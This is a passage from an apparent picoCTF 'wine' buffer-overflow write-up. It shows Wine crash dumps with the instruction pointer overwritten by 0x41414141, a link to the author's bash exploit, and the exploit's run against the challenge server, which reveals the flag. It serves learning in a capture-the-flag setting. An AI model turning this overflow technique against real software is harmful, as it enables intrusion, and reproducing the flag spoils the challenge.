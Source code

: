 ```
0x0064fed4:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x7fec39e0 (0x41414141)
0x7fec39e0: hlt
Modules:
Module  Address                 Debug info      Name (5 modules)
PE        400000-  44b000       Deferred        vuln
PE      7b020000-7b023000       Deferred        kernelbase
PE      7b420000-7b5db000       Deferred        kernel32
PE      7bc30000-7bc34000       Deferred        ntdll
PE      7fe10000-7fe14000       Deferred        msvcrt
Threads:
process  tid      prio (all id:s are in hex)
00000008 (D) Z:\challenge\vuln.exe
        00000009    0 <==
0000000c services.exe
        0000000e    0
        0000000d    0
00000012 explorer.exe
        00000013    0
System information:
    Wine build: wine-5.0 (Ubuntu 5.0-3ubuntu1)
    Platform: i386
    Version: Windows Server 2008 R2
    Host system: Linux
    Host version: 5.15.0-1023-aws
```

But i was able to make a bash exploit (as fun as py also 😄) [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/picoctf/wine/exploit.sh)

On running it

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ chmod +x exploit.sh
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ ./exploit.sh          
Error: This script requires two arguments - IP address and port number
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ ./exploit.sh saturn.picoctf.net 53956
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_1b905d38}
Unhandled exception: page fault on read access to 0x7fec39e0 in 32-bit code (0x7fec39e0).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:7fec39e0 ESP:0064fe84 EBP:41414141 EFLAGS:00010206(  R- --  I   - -P- )
 EAX:00000000 EBX:00230e78 ECX:0064fe14 EDX:7fec48f4
 ESI:00000005 EDI:0021d6b8
Stack dump:
0x0064fe84:  00000000 00000004 00000000 7b432ecc
0x0064fe94:  00230e78 0064ff28 00401386 00000002
0x0064fea4:  00230e70 006d0da0 7bcc4625 00000004
0x0064feb4:  00000008 00230e70 0021d6b8 006145be
0x0064fec4:  3813df36 00000000 00000000 00000000
0x0064fed4:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x7fec39e0 (0x41414141)
0x7fec39e0: hlt
Modules:
Module  Address                 Debug info      Name (5 modules)
PE        400000-  44b000       Deferred        vuln
```